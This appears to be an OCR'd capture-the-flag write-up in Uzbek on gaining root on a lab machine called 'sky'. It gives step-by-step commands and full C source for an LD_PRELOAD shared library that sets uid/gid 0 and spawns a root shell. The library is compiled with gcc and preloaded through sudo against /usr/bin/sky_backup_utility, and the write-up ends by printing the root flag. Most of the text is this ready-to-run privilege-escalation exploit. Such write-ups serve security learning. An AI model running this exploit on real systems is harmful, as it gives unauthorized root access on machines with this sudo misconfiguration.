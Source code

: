 

Men `/usr/bin/sky_backup_utility` dasturidan foydalanishga harakat qildim, lekin hech nima ishlamadi.

Tajriba orqali bildimki, `LD_PRELOAD` o‘rnatilgan va bu orqali root huquqlarini olish uchun exploit mavjud.

Yana, HackTricks maqolasidan exploit kodidan foydalandim:

------

1. Katalogni `/tmp` ga o‘zgartiring:

   ```bash
   cd /tmp
   ```

2. Istalgan nomdagi C fayl yarating:

   ```bash
   nano pe.c
   ```

3. Quyidagi payload (kodni) joylashtiring va faylni saqlang:

   ```c
   #include <stdio.h>
   #include <sys/types.h>
   #include <stdlib.h>
   
   void _init() {
       unsetenv("LD_PRELOAD");
       setgid(0);
       setuid(0);
       system("/bin/bash");
   }
   ```

4. Faylni quyidagicha kompilyatsiya qiling:

   ```bash
   gcc -fPIC -shared -nostartfiles -o pe.so pe.c
   ```

5. Shared library’ni preload qilib ishga tushiring:

   ```bash
   sudo LD_PRELOAD=/tmp/pe.so /usr/bin/sky_backup_utility
   ```

6. Endi sizda root huquqlari mavjud!



root.txt'ni qo'lga kiritish:

```
root@sky:~# cat /root/root.txt
3a62d897c40a815ecbe267df2f533ac6
```

